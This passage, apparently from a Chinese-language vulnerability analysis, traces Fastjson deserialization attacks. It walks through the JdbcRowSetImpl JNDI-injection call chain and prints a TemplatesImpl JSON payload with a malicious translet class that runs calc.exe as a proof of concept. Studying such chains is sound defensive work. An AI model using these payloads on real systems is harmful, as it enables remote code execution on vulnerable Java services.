 跟入`com.sun.rowset.JdbcRowSetImpl.connect()`，触发`lookup`，加载远程恶意对象

```
protected Connection connect() throws SQLException `{`
    if (this.conn != null) `{`
        return this.conn;
    `}` else if (this.getDataSourceName() != null) `{`
        try `{`
            // conn为空且dataSourceName不为空才会到这里
            InitialContext var1 = new InitialContext();
            // 成功触发JNDI注入
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```

根据lookup到`com.sun.jndi.rmi.registry.RegistryContext.lookup()`

```
public Object lookup(Name var1) throws NamingException `{`
        if (var1.isEmpty()) `{`
            ......
            return this.decodeObject(var2, var1.getPrefix(1));
        `}`
    `}`
```

跟入`decodeObject`方法，看到加载了远程`Reference`绑定的恶意对象

```
Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
return NamingManager.getObjectInstance(var3, var2, this, this.environment);
```

总结：
- 实战可以利用，JDNI注入基于较低版本的JDK，LDAP适用范围更广
- 必须能出网，加载远端的恶意字节码，造成了局限性


## TemplateImpl

```
String payload = "`{`\"a\":`{`\n" +
    "\"@type\":\"java.lang.Class\",\n" +
    "\"val\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"\n" +
    "`}`,\n" +
    "\"b\":`{`\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
    "\"_bytecodes\":[\"!!!Payload!!!\"],\"_name\":\"a.b\",\"_tfactory\":`{``}`,\"_outputProperties\":`{``}``}`";
JSON.parse(payload, Feature.SupportNonPublicField);
```

注意其中的Payload来自于恶意类，该类应该继承自`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`

```
public class TEMPOC extends AbstractTranslet `{`
    public TEMPOC() throws IOException `{`
        Runtime.getRuntime().exec("calc.exe");
    `}`
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) `{`
    `}`
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException `{`
    `}`
    public static void main(String[] args) throws Exception `{`
        TEMPOC t = new TEMPOC();
    `}`
`}`
```

